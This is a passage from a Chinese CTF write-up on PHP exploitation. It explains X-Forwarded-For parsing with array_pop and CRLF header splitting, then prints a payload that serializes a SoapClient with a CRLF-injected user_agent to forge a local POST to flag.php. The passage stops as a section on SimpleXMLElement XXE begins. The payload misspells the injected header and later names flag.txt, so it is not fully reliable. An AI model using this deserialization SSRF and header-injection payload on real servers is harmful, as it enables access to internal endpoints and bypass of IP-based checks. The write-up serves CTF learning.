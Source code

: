 ```plain
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
```

XFF 头需要 array\_pop 两次，取第二次的值作为 IP，所以我们构造 XFF 的时候需要注意一下，可以测试一下

```plain
array_pop 两次：
X-Forwarded-For:x ————>X-Forwarded-For:空
X-Forwarded-For:x,y ————>X-Forwarded-For:x
X-Forwarded-For:x,y,z ————>X-Forwarded-For:y
```

CRLF 小 tips:

```plain
HTTP 请求头之间的参数用一个\r\n分隔
HTTP Header 与 HTTP Body 是用两个\r\n分隔的
```

payload:

```plain
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$ua="test\r\nX-Forwared-For:127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
//Content-Length 需要修改
$b = new SoapClient(null,array('location' => $target,'user_agent'=>$ua,'uri'=> "http://127.0.0.1/"));
$a = serialize($b);
echo urlencode($a);
?>
```

之后访问 flag.txt 即可

# SimpleXMLElement：XXE

[PHP: SimpleXMLElement - Manual](https://www.php.net/manual/zh/class.simplexmlelement)

能够利用 SimpleXMLElement 类进行 XXE 主要是因为调用 SimpleXMLElement::\_\_construct 可以远程控制 xml 文件

[PHP: SimpleXMLElement::\_\_construct - Manual](https://www.php.net/manual/zh/simplexmlelement.construct.php)
